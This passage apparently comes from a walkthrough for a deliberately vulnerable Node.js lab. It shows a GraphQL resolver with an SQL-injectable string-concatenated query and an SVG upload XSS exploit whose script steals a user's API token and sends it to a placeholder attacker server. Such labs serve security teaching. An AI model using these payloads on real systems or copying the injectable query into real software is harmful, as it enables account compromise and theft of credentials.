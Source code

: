 **graphql_ShowProfile**

```js
async function graphql_ShowProfile(args){
    const userid = args.userid
    const q = "SELECT * FROM users where id='" + userid + "';";
    await con.connect()
    const userdata = await con.promise().query(q)
    return userdata[0][0]
}
```

## 25. XSS using SVG file upload

Application allows users to upload .svg file as a profile picture your goal is to steal other user information by using XSS.

### Exploit

1. Login to the attacker account
2. Upload the following malicious `.svg` file to your account.
   
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('This app is probably vulnerable to XSS attacks!');
   </script>
</svg>
```
3. Right click on your profile image click on view image and it will open the image in a new tab and you will see an alert popup.
4. Now modify the XSS payload in the svg file to steal details from other users account such as their  API token that is returned from this endpoint `/jwt1/apiKey`
   
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script>
function stealData(t) {
    fetch(t).then(t => t.text()).then(t => {
        fetch("http://<attackerserver>/steal?apitKey=" + t)
    })
}
stealData("http://<vuln-nodejs-app>/jwt1/apiKey");
   </script>
</svg>
```
